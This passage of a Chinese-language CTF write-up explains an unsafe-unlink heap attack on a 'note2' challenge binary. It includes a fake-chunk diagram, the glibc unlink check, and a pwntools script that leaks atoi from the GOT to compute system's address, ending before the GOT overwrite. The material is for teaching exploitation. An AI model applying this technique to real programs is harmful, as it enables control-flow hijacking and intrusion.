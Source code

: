 ```
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           圖2
```

該覆蓋主要是爲了釋放chunk2的時候可以後向合併（合併低地址），對chunk0中虛擬構造的chunk進行unlink。即將要執行的操作爲unlink(ptr[0])，同時我們所構造的fakebk和fakefd滿足如下約束

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink成功執行，會導致ptr[0]所存儲的地址變爲fakebk，即ptr-0x18。

#### 獲取system地址

代碼如下

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

我們修改ptr[0]的內容爲 ptr 的地址-0x18，所以當我們再次編輯 note0 時，可以覆蓋ptr[0]的內容。這裏我們將其覆蓋爲atoi的地址。
這樣的話，如果我們查看note 0的內容，其實查看的就是atoi的地址。

之後我們根據 libc 中對應的偏移計算出 system 的地址。

#### 修改atoi got
